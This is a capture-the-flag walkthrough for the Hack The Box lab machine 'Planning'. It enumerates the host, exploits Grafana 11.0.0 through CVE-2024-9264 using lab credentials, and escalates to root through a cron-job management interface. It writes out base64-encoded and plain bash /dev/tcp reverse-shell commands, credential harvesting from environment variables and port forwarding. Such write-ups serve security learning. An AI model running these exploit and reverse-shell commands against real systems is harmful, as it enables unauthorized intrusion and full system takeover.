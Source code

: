 ```yaml
---
name: Planning
difficulty: easy
os: linux
platform: htb
date: 2025/07/02

img: https://labs.hackthebox.com/storage/avatars/c9efb253e7d1d9b407113e11afdaa905.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.68 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.68 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62fff6d4578805adf4d3de5b9bf850f1 (ECDSA)
|_  256 4cce7d5cfb2da09e9fbdf55c5e61508a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there is a web service running on port 80. This website redirects us to `http://planning.htb`, so it is necessary to add the domain to our `/etc/hosts` file:
```bash
echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

We will try to detect the web application framework using `whatweb`:
```bash
whatweb http://planning.htb
```
```
http://planning.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@planning.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], JQuery[3.4.1], Script, Title[Edukate - Online Education Website], nginx[1.24.0]
```

We will do a directory enumeration scan using `gobuster` to enumerate the web application:
```bash
gobuster dir -u http://planning.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

As nothing interesting was found in directory enumeration and web application content, we will proceed with subdomain enumeration using `ffuf`:
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" -fs 0
```
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 237ms]
```
We should add the subdomain `grafana.planning.htb` to our `/etc/hosts` file:
```bash
10.10.11.68 planning.htb grafana.planning.htb
```

## User Exploitation

We access grafana at `http://grafana.planning.htb` and we are greeted with a login page. 
We can log in using credentials given in the description of the machine:
```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

We can check grafana version in `http://grafana.planning.htb/api/health`, we see that is running version `11.0.0`

We can use `https://github.com/nollium/CVE-2024-9264` to exploit a vulnerability in Grafana 11.0.0 that allows us to execute arbitrary code.
We clone the repository and run the exploit:
```bash
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
pip install -r requirements.txt
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c <shell-cmd> http://grafana.planning.htb
``` 
We will encode base64 the following code to get a reverse shell:
```bash
echo "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1" | base64
```

Then we run the exploit with the encoded command:
```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjkvNDQ0NCAwPiYxCg | base64 -d | bash'  http://grafana.planning.htb
```

We are in a Docker container. We can check by running the following command:
```bash
hostname -I
```
```
172.17.0.2
```
We can get credentials on ENV variables:
```bash
env
```
```
...
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
...
```

We can use these credentials to login via ssh
```bash
ssh enzo@planning.htb
```

We can find the user flag in the home directory:
```bash
cat /home/enzo/user.txt
```
```
user flag value
```

## Root Exploitation

We can check if user `enzo` has sudo privileges:
```bash
sudo -l
```
```
Sorry, user enzo may not run sudo on planning.
```

We run `linpeas` to check for privilege escalation vectors:
```bash
./linpeas.sh
```
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data
```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
```

Also found a service running on port 8000, which is not accesible from outside the machine. We do a port forwarding to access it:
```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

We can access the service at `http://localhost:8000` and we are greeted with a login page. We can log in using the credentials we found in the crontab:
```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

We can see a web interface that allows users to manage crontab jobs which will be runned by root. We can create a new job that will create a reverse shell for us. We can use the following command to create a new job:
```bash
bash -c "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1"
```

Once the job is created we can run it by clicking on the "Run" button. This will execute the command as root and give us a reverse shell.

We get access to the root reverse shell:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion

This walkthrough demonstrated how to exploit a vulnerable Grafana instance to gain user access and then escalate privileges to root using a custom cron job. The process involved enumeration, exploiting a known vulnerability, and leveraging Docker container management to achieve the final goal of obtaining the root flag. 
